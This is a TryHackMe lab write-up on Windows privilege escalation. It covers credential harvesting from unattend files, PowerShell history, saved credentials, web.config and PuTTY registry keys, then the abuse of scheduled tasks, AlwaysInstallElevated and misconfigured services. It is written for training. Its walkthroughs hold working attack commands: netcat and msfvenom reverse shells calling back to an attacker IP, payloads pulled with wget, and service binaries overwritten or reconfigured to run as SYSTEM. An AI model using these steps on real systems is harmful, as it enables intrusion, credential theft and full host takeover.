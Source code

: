# TRYHACKME : Windows Privilege Escalation

> Gaining access to different accounts can be as simple as finding credentials in text files or spreadsheets left unsecured by some careless user, but that won't always be the case. Depending on the situation, we might need to abuse some of the following weaknesses:
> - Misconfigurations on Windows services or scheduled tasks
> - Excessive privileges assigned to our account
> - Vulnerable software
> - Missing Windows security patches

## Windows User
| User Type | Privileges |
|---|---|
| Administrator | -> have the most privileges -> can change any system configuration parameter & access any file in the system |
| Standard Users | -> can access the computer but only perform limited tasks -> these users can not make permanent or essential changes to the system and are limited to their files |

| Special Built-in Accounts | |
|---|---|
| SYSTEM / LocalSystem | -> account used by the operating system to perform internal tasks -> has full access to all files and resources available on the host -> has higher privileges than administrators |
| Local Service | -> default account -> minimum privileges -> uses anonymous connections over the network |
| Network Service | -> default account -> minimum privileges -> use the computer credentials to authenticate through the network |

<details markdown=1>
<summary><h2> 1. Harvesting Passwords from Usual Spots </h2></summary>
  
> This task will present some known places to look for passwords on a Windows system.
>
> Start the target machine. If using 
>
>> Username: `thm-unpriv` Password: `Password321`
>
> # A. Unattended Windows Installations
> When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network.
> 
>> These kinds of installations are referred to as unattended installations as they don't require user interaction.
>
> Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:
>```
>    C:\Unattend.xml
>    C:\Windows\Panther\Unattend.xml
>    C:\Windows\Panther\Unattend\Unattend.xml
>    C:\Windows\system32\sysprep.inf
>    C:\Windows\system32\sysprep\sysprep.xml
> ```
>
> In these type of files, you might encounter credentials such as:
> ```
>  <Credentials>
>     <Username>Administrator</Username>
>     <Domain>thm.local</Domain>
>     <Password>MyPassword123</Password>
>  </Credentials>
> ```
> ## TARGET MACHINE:
>> ```
>> more C:\Unattend.xml => (cannot access file / file not found)
>> more C:\Windows\Panther\Unattend.xml => (cannot access file / file not found)
>> dir C:\Windows\Panther\Unattend => (empty folder)
>> more C:\Windows\system32\sysprep.inf => (cannot access file / file not found)
>> dir C:\Windows\system32\sysprep
>>       <DIR> ActionFiles
>>       <DIR> en-us
>>       <DIR> Panther
>>       sysprep.exe
>> more C:\Windows\system32\sysprep\sysprep.xml => (cannot access file / file not found)
>> ```
>> 
> 
> # B. Powershell History
> All commands run using Powershell gets stored into a file that keeps a memory of past commands.
>
>> It can later be retrieved by using the following command from a `cmd.exe` prompt (it won't work in Powershell; in order to read the file from Powershell, replace `%userprofile%` into `$Env:userprofile`)
>
> ```
> type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
>> ls
>> whoami
>> whoami /priv
>> whoami /group
>> whoami /groups
>> cmdkey /?
>> cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z        // WAHH CREDENTIALS!!!
>> cmdkey /list
>> cmdkey /delete:thmdc.local
>> cmdkey /list
>> runas /?
>> ```
>
> # C. Saved Windows Credentials
> Windows allows us to use other users' credentials.
>
> The command below will list saved credentials:
> ```
> cmdkey /list
> ```
>
> Regardless of not seeing actual passwords, credentials alone are worth trying. Use them with the `runas` command and the `/savecrad` option:
> ```
> runas /savecred /user:admin cmd.exe
> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>cmdkey /list
>>
>> Currently stored credentials:
>>
>>     Target: Domain:interactive=WPRIVESC1\mike.katz
>>     Type: Domain Password
>>     User: WPRIVESC1\mike.katz
>> 
>> C:\Users\thm-unpriv>runas /savecred /user:mike.katz cmd.exe
>> Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...
>>
>> (opens another cmd terminal)
>>
>> C:\Windows\system32>whoami
>> wprivesc1\mike.katz
>> C:\Windows\system32>more C:\Users\mike.katz\Desktop\flag.txt
>> // FLAG ANSWER
>> ```
>
> # D. IIS Configuration
> Internet Information Services (IIS) is the default web server on Windows installations.
>
>> IIS websites' configuration is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms.
>
> Depending on the installed version, `web.config` can be found on ff locations:
>``` 
>    C:\inetpub\wwwroot\web.config
>    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
>```
> 
> To quickly find database connection strings on the file:
> ```
> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
> ```
> ## TARGET MACHINE
>> ```
>> C:\Users\thm-unpriv> more C:\inetpub\wwwroot\web.config => (cannot access file / file not found)
>> C:\Users\thm-unpriv> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
>>                 <add connectionStringName="LocalSqlServer" maxEventDetailsLength="1073741823" buffer="false"
>> bufferMode="Notification" name="SqlWebEventProvider"
>> type="System.Web.Management.SqlWebEventProvider,System.Web,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a" />
>>                     <add connectionStringName="LocalSqlServer" name="AspNetSqlPersonalizationProvider"
>> type="System.Web.UI.WebControls.WebParts.SqlPersonalizationProvider, System.Web, Version=4.0.0.0, Culture=neutral,
>> PublicKeyToken=b03f5f7f11d50a3a" />
>>     <connectionStrings>
>>         <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />  // WAHH CREDENTIALS !!!
>> </connectionStrings>
>> ```
>
> # E. Retrieve Credentials from Software: PuTTY
> **PuTTY** is an SSH client commonly found on Windows systems. It is created by Simon Tatham (his name is part of the path, not the username to retrieve password).
>
> Users can store sessions (IP, user, and other configurations) instead of having to specify a connection's parameters every single time. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.
>
> To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword w/ the ff command:
> ```
> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
> ```
> Stored proxy username should also be visible after running the command above.
>
> # TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
>> HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
>> 
>>     ProxyExcludeList    REG_SZ
>>     ProxyDNS    REG_DWORD    0x1
>>     ProxyLocalhost    REG_DWORD    0x0
>>     ProxyMethod    REG_DWORD    0x0
>>     ProxyHost    REG_SZ    proxy
>>     ProxyPort    REG_DWORD    0x50
>>     ProxyUsername    REG_SZ    thom.smith
>>     ProxyPassword    REG_SZ    CoolPass2021    // WAHH CREDENTIALS !!!
>>     ProxyTelnetCommand    REG_SZ    connect %host %port\n
>>     ProxyLogToTerm    REG_DWORD    0x1
>>
>> End of search: 10 match(es) found.
>> ```
>>
</details>

<details>
<summary><h2> 2. Other Quick Wins </h2></summary>
  
> Privilege escalation is not always a challenge.
>
> Some misconfigurations can allow you to obtain higher privileged user access and, in some cases, even administrator access.
>
> # A. Scheduled Tasks
> Some scheduled task might either lost its binary or it's using a binary you can modify.
>
> Scheduled tasks can be listed from the command line using the `schtasks` command without any options.
>
> To retrieve more detailed information about any of the services you can type
> ```
> C:\> schtasks /query /tn vulntask /fo list /v
> Folder: \
> HostName:                             THM-PC1
> TaskName:                             \vulntask
> Task To Run:                          C:\tasks\schtask.bat
> Run As User:                          taskusr1
> ```
> ### Two Important Parameters:
>> - **Task to Run** = indicates what gets executed by the scheduled task
>> - **Run As User** = shows the user that will be used to execute the task
>
> If modifiable, we can control what gets executed by the taskuser1, resulting in a simple privilege escalation.
> 
> Use `icacls` to check permissions on the executable:
> ```
> C:\> icacls c:\tasks\schtask.bat
> c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
>                     BUILTIN\Administrators:(I)(F)
>                     BUILTIN\Users:(I)(F)
> ```
> The **BUILTIN/Users** group has full access (F) over the task's binary. That means we can modify the .bat file and insert any payloads we like.
>
> ## ATTACKER MACHINE:
>> ```
>> root@ip-10-10-107-180:~# nc -lvp 4444
>> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>echo c:\tools\nc64.exe -e cmd.exe <ATTACKER-IP> 4444 > C:\tasks\schtask.bat
>>
>> C:\Users\thm-unpriv>schtasks /run /tn vulntask
>> SUCCESS: Attempted to run the scheduled task "vulntask".
>> ```
>
> ## ATTACKER MACHINE:
>> ```
>> root@ip-10-10-107-180:~# nc -lvp 4444
>> Listening on 0.0.0.0 4444
>> Connection received on 10.10.89.191 49907
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> wprivesc1\taskusr1
>>
>> C:\Windows\system32>more C:\Users\taskuser1\Desktop\flag.txt
>> // RETRIEVE FLAG
>> ```
>
> # B. AlwaysInstallElevated
> Windows installer files (.msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it.
>
> However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.
>
>> **NOTE:** The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.
> 
> This method required two registry values to be set. Otherwise, exploitation will not be possible. You can query these from the command line using the commands below:
>> ```
>> C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
>> C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
>> ```
>
> After setting the two, you can generate a malicious .msi file using `msfvenom`, as seen below:
> ```
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
> ```
> As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:
> ```
> C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
> ```
  
</details>

<details> 
<summary><h2> 3. Abusing Service Misconfigurations </h2></summary>

> # A. Windows Services
> Window servies are managed by the **Service Control Manager (SCM)**. Its in charge of managing the state of service as needed, checking the current status of any given service and generally providing a way to configure services.
> 
>> Each service will have associated executable which will be run by SCM whenever a service is started.
>
> Service executables implement _special functions_ to be able to communicate with the SCM. Therefore, not any executable can be started as a service succesfully.
>
>> Each service also specifies the **user account** under which the service will run.
>
> To check the structure of a service, let's check as an example the `apphostsvc` service configuration with the `sc qc` command:
> 
> ### TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>sc qc apphostsvc
>> [SC] QueryServiceConfig SUCCESS
>>
>> SERVICE_NAME: apphostsvc
>>         TYPE               : 20  WIN32_SHARE_PROCESS\
>>         START_TYPE         : 2   AUTO_START
>>         ERROR_CONTROL      : 1   NORMAL
>>         BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
>>         LOAD_ORDER_GROUP   :        TAG                : 0
>>         DISPLAY_NAME       : Application Host Helper Service
>>         DEPENDENCIES       :
>>         SERVICE_START_NAME : localSystem
>> ```
> Here we can see the _associated executable_ is specified throught the **BINARY_PATH_NAME** parameter, and the _account used_ to urn the service is shown on the **SERVICE_START_NAME** parameter.
>
>> Services have a **Discretionary Access Control List (DACL)**, which indicates _who has permission_ to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges.
>
> DACL can be seen from **Process Hacker** on THM's target machine's desktop. Then click on Services Tab > AppHOstSvc > Security Tab. You'll see the group or user names and their permissions.
>
> While all the services configuration are stored on the **Registry Editor** under `HKLM\SYSTEM\CurrentControlSet\Services\AppHostSvc`
>
>> A **subkey** exist for every service in the system. We can see the associated executable on the **ImagePath** value and the account used to start the service on the **ObjectName** value. If a DACL has been configured for the service, it will be stored in a subkey called **Security**.
>
> # B. Insecure Permissions on Service Executable
>
> If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.
>
> To understand how this works, let's look at a vulnerability found on **Splinterware System Scheduler**. To start, we will query the service configuration using sc:
>
> ### TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>sc qc WindowsScheduler
>> [SC] QueryServiceConfig SUCCESS
>>
>> SERVICE_NAME: WindowsScheduler
>>         TYPE               : 10  WIN32_OWN_PROCESS
>>         START_TYPE         : 2   AUTO_START
>>         ERROR_CONTROL      : 0   IGNORE
>>         BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
>>         LOAD_ORDER_GROUP   :
>>         TAG                : 0
>>         DISPLAY_NAME       : System Scheduler Service
>>         DEPENDENCIES       :
>>         SERVICE_START_NAME : .\svcusr1
>> ```
 
> We can see that the service installed by the vulnerable software runs as **svcuser1** and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:
>
> ### TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
>> C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
>>                                   NT AUTHORITY\SYSTEM:(I)(F)
>>                                   BUILTIN\Administrators:(I)(F)
>>                                   BUILTIN\Users:(I)(RX)
>>                                   APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
>>                                   APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
>>
>> Successfully processed 1 files; Failed processing 0 files
>> ```
> And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. **This means we can simply overwrite it with any payload of our preference**, and the service will execute it with the privileges of the configured user account.
>
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
>>
>> user@attackerpc$ python3 -m http.server 8000
>> Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
>> ```
>
> We can then pull the payload from Powershell with the following command:
> ### TARGET MACHINE:
>> ```
>> wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
>> ```
>
> Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:
>
> ### TARGET MACHINE:
>> ```
>> C:\> cd C:\PROGRA~2\SYSTEM~1\
>>
>> C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
>>         1 file(s) moved.
>>
>> C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
>>         1 file(s) moved.
>>
>> C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
>>         Successfully processed 1 files.
>> ```
>
> We start a reverse listener on our attack machine:
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ nc -lvp 4445 // OR socat TCP-L:4445 
>> ```
>
> And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a cmd.exe command prompt:
>
> ### TARGET MACHINE:
>> ```
>> C:\> sc stop windowsscheduler
>> C:\> sc start windowsscheduler
>> ```
> > Note: PowerShell has sc as an alias to Set-Content, therefore you need to use sc.exe in order to control services with PowerShell this way.
>
> As a result, you'll get a reverse shell with svcusr1 privileges
> 
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ nc -lvp 4445
>> Listening on 0.0.0.0 4445
>> Connection received on 10.10.175.90 50649
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> wprivesc1\svcusr1
>> 
>> C:\Windows\system32> more C:\Users\svcusr1\Desktop\flag.txt
>> // RETRIVE FLAG
>> ```
>
> # C. Unquoted Service Paths
> When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.
>
> When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.
>
> This simply shows a syntax error in the **BINARY_PATH_NAME**. When a path is not surrounded by double quotation marks, it is not properly configured as there are spaces on the name of the path of the specific service folder. The command becomes ambiguous, and the SCM doesn't know which of the following you are trying to execute.
>
> The command prompt will mistakenly interpret the first line as an executable file and the rest, after the space, is taken as arguments.
>
> **Compare:**
> ```
> BINARY_PATH_NAME   : "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service
> ```
> ```
> BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
> ```
>
> From this behaviour, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.
>
> While this sounds trivial, most of the service executables will be installed under C:\Program Files or C:\Program Files (x86) by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited. There are exceptions to this rule: - Some installers change the permissions on the installed folders, making the services vulnerable. - An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.
>
> In our case, the Administrator installed the Disk Sorter binaries under c:\MyPrograms. By default, this inherits the permissions of the C:\ directory, which allows any user to create files and folders in it. We can check this using icacls:
>
> # TARGET MACHINE:
>> ```
>> C:\>icacls c:\MyPrograms
>> c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
>>               BUILTIN\Administrators:(I)(OI)(CI)(F)
>>               BUILTIN\Users:(I)(OI)(CI)(RX)
>>               BUILTIN\Users:(I)(CI)(AD)
>>               BUILTIN\Users:(I)(CI)(WD)
>>               CREATOR OWNER:(I)(OI)(CI)(IO)(F)
>>
>> Successfully processed 1 files; Failed processing 0 file
>> ```
>
> The BUILTIN\\Users group has **AD** and **WD** privileges, allowing the user to create subdirectories and files, respectively.
>
> # ATTACKER MACHINE:
>> ```
>> user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe
>> 
>> user@attackerpc$ python3 -m http.server 8000
>> Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
>> ```
>
> # TARGET MACHINE (POWERSHELL):
>> ```
>> wget http://ATTACKER_IP:8000/rev-svc2.exe -O rev-svc2.exe
>> ```
>
> # ATTACKER MACHINE:
>> ```
>> nc -lvnp 4446 // OR socat TCP-L:4446 -
>> ```
>
>  Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to **C:\MyPrograms\Disk.exe**. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:
>
> # TARGET MACHINE:
>> ```
>> C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
>>
>> C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
>>         Successfully processed 1 files.
>> 
>> C:\> sc stop "disk sorter enterprise"
>>
>> C:\> sc start "disk sorter enterprise"
>> ```
>
> # ATTACKER MACHINE:
>> ```
>> user@attackerpc$ nc -lvp 4446
>> Listening on 0.0.0.0 4446
>> connection received on 10.10.175.90 50650
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> wprivesc1\svcusr2
>>
>> C:\Windows\system32>more C:\Users\svcusr2\Desktop\flag.txt
>> more C:\Users\svcusr2\Desktop\flag.txt
>> // RETRIEVE FLAG
>> ```

> # D. Insecure Service Permissions
> You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted.
>
> Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.
>
> To check for a service DACL from the command line, you can use Accesschk from the Sysinternals suite. For your convenience, a copy is available at C:\\tools. The command to check for the thmservice service DACL is:
>
> # TARGET MACHINE:
>> ```
>> C:\>cd C:\tools\AccessChk && accesschk64.exe -qlc thmservice
>> 
>> Accesschk v6.14 - Reports effective permissions for securable objects
>> Copyright ⌐ 2006-2021 Mark Russinovich
>> Sysinternals - www.sysinternals.com
>>
>> thmservice
>>   DESCRIPTOR FLAGS:
>>       [SE_DACL_PRESENT]
>>       [SE_SACL_PRESENT]
>>       [SE_SELF_RELATIVE]
>>   OWNER: NT AUTHORITY\SYSTEM
>>   [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
>>         SERVICE_QUERY_STATUS
>>         SERVICE_QUERY_CONFIG
>>         SERVICE_INTERROGATE
>>         SERVICE_ENUMERATE_DEPENDENTS
>>         SERVICE_PAUSE_CONTINUE
>>         SERVICE_START
>>         SERVICE_STOP
>>         SERVICE_USER_DEFINED_CONTROL
>>         READ_CONTROL
>>   [1] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Administrators  // TAKE NOTE
>>         SERVICE_ALL_ACCESS
>> ```
> Here we can see that the **BUILTIN\\Users** group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.
>
> Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:
>
> # ATTACKER MACHINE:
>> ```
>> user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe
>>
>> user@attackerpc$ python3 -m http.server 9000
>> Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
>> ```
> 
> # TARGET MACHINE (POWERSHELL):
>> ```
>> wget http://10.4.124.80:9000/rev-svc3.exe -O rev-svc3.exe
>> ```
>
> # TARGET MACHINE (POWERSHELL):
>> ```
>> C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
>>
>> C:\>sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
>> [SC] ChangeServiceConfig SUCCESS
>>
>> C:\>sc stop THMService
>> [SC] ControlService FAILED 1062:
>>
>> The service has not been started.
>>
>> C:\>sc start THMService
>>
>> SERVICE_NAME: THMService
>>         TYPE               : 10  WIN32_OWN_PROCESS
>>         STATE              : 4  RUNNING
>>                                 (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
>>         WIN32_EXIT_CODE    : 0  (0x0)
>>         SERVICE_EXIT_CODE  : 0  (0x0)
>>         CHECKPOINT         : 0x0
>>         WAIT_HINT          : 0x0
>>         PID                : 2884
>>         FLAGS              :
>> ```
>
> # ATTACKER MACHINE:
>> ```
>> $ socat TCP-L:4447 -
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> NT AUTHORITY\SYSTEM
>>
>> C:\Windows\system32>more C:\Users\Administrator\Desktop\flag.txt
>> more C:\Users\Administrator\Desktop\flag.txt
>> // RETRIEVE FLAG
>> ```

</details>


